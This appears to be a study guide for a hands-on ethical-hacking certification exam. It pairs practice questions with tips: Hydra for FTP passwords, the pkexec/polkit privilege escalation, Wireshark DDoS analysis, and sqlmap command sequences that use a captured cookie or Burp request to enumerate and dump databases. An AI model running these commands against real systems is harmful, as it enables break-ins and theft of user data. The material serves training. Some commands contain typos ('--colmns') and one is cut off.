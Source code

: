 Question-8.  Exploit weak credentials of FTP. Obtain the hidden file

Tips:-   Use Hydra to break the password, login and access the file, and enter the flag

>>>>>>Suggested lectures: FTP Exploitation.



Question-9.  Escalate privilege on a Linux machine. User-level credentials are given.

Tips:-   Use polkit exploit to get the root access

>>>>>>Suggested lectures: Walkthrough - Escalate Privileges by Exploiting Vulnerability in pkexec



Question-10.  Find a file entry point. File is given

Tips:-   Use DIE(detect it easy) or exeinfo PE tools.

>>>>>>Suggested lectures: Analyze ELF Executable File using Detect It Easy (DIE), Find the Portable Executable (PE) Information of a Malware Executable File



Question-11.  From a pcap file, analyze a DDOS attack and provide the IP address that sent most packets.

Tips:-   Use Wireshark and statistics tab

>>>>>>Suggested lectures: Detect DDOS attack with Wireshark



Question-12.  You are provided a username/password for a website. Use SQL Injection attack to extract the password of another user.

Tips:-   Log in with the given credential. Use cookie to extract the password of a user from the table with sqlmap.

$ sqlmap -u "URL" --cookie="captured cookie of looged in user" --dbs    #for Database

$ sqlmap -u "URL" --cookie="captured cookie of looged in user" -D *DATABASE NAME* --tables #for Tables of selected Database

$ sqlmap -u "URL" --cookie="captured cookie of looged in user" -D *DATABASE NAME* -T *TABLE NAME* --colmns #for Column names

$ sqlmap -u "URL" --cookie="captured cookie of looged in user" -D *DATABASE NAME* -T *TABLE NAME* --dump #dump t

>>>>>>Suggested lectures: SQL Injection Vulnerabilities, SQL Injection Challenge (SQLMAP THM Free Room)



Question-13.  Exploit a web application at www.xxxx.com and enter the flag value from given page.

Tips:-  Find any input parameter on website and capture the request in burp and then use it to perform sql injection using sqlmap

sqlmap -r <txt file from burpsuite> -D <database name> --tables

sqlmap -r <txt file from burpsuite> -D <database name> --tables --columns

sqlmap -r <txt file from burpsuite> -D <database name> --dump
